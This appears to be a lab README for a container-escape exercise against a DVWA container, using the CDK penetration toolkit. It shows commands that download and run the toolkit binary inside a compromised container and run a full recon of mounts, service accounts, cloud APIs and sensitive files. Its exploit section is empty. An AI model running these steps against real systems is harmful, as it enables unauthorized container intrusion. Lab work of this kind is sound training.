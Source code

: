 # cdk (Zero Dependency Container Penetration Toolkit)
https://github.com/cdk-team/CDK


## Setup the virtual machine
```/bin/bash
vagrant up
vagrant ssh
cd /vagrant
sudo docker-compose up -d
```


## Setup cdk
```/bin/bash
# Let's assume that you've exploited the application and dropped into the container's shell
sudo docker exec -it web-dvwa /bin/bash

# Time to set up the toolkit
apt-get update
apt-get install wget -Y
wget https://github.com/cdk-team/CDK/releases/download/v0.1.10/cdk_linux_386
chmod +x cdk_linux_386
alias cdk='/cdk_linux_386' 
```


## Recon / Evaluation
system info, services, commands, mounts, net namespaces, sysctl variables, k8s api server, k8s service account, cloud provider api, sensitive files

```/bin/bash
cdk evaluate --full
```


## Exploit
```/bin/bash
```

Educational Links:
https://www.educba.com/docker-privileged/
https://iximiuz.com/en/posts/implementing-container-runtime-shim/



## Network tools


